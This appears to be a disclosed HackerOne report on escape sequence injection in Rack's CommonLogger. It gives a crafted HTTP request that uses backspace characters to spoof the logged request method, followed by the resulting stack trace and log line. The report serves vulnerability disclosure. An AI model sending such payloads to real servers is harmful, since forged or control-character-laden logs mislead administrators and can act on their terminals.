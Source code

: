 # Escape Sequence Injection vulnerability in Rack

## Report Details
- **Report ID**: 1411867
- **URL**: https://hackerone.com/reports/1411867
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-11-29T12:44:26.835Z
- **Disclosed**: 2023-06-28T08:37:50.204Z

## Reporter
- **Username**: vairelt
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rails

## Vulnerability Information
Dangerous bug in commonlogger of rack that allows to inject escape sequences in logs, the same bug alredy closed in webrick 
https://www.ruby-lang.org/en/news/2010/01/10/webrick-escape-sequence-injection/
Logger processes the query string correctly, but request metod printing as is.
https://github.com/rack/rack/blob/master/lib/rack/common_logger.rb#L50
Triggering request:
```
GET\b\b\bPOST /sign_in?test1=1\b2 HTTP/1.0
Host: 127.0.0.1:4567
```
Result:
``` 
Rack::Lint::LintError: REQUEST_METHOD unknown: POST
        /usr/local/bundle/gems/rack-2.2.3/lib/rack/lint.rb:21:in `assert'
        /usr/local/bundle/gems/rack-2.2.3/lib/rack/lint.rb:340:in `check_env'
        /usr/local/bundle/gems/rack-2.2.3/lib/rack/lint.rb:44:in `_call'
        /usr/local/bundle/gems/rack-2.2.3/lib/rack/lint.rb:38:in `call'
        /usr/local/bundle/gems/rack-2.2.3/lib/rack/show_exceptions.rb:23:in `call'
        /usr/local/bundle/gems/rack-2.2.3/lib/rack/common_logger.rb:38:in `call'
        /usr/local/bundle/gems/sinatra-2.1.0/lib/sinatra/base.rb:253:in `call'
        /usr/local/bundle/gems/rack-2.2.3/lib/rack/content_length.rb:17:in `call'
        /usr/local/bundle/gems/rack-2.2.3/lib/rack/handler/webrick.rb:95:in `service'
        /usr/local/bundle/gems/webrick-1.7.0/lib/webrick/httpserver.rb:140:in `service'
        /usr/local/bundle/gems/webrick-1.7.0/lib/webrick/httpserver.rb:96:in `run'
        /usr/local/bundle/gems/webrick-1.7.0/lib/webrick/server.rb:310:in `block in start_thread'
172.19.0.1 - - [29/Nov/2021:12:19:06 +0000] "POST /sign_in?test1=1%082 HTTP/1.1" 500 950 0.0006
```

## Impact

inject malicious escape sequences to its logs, making it possible for dangerous control characters to be executed on a victim's terminal emulator

## Attachments
No attachments
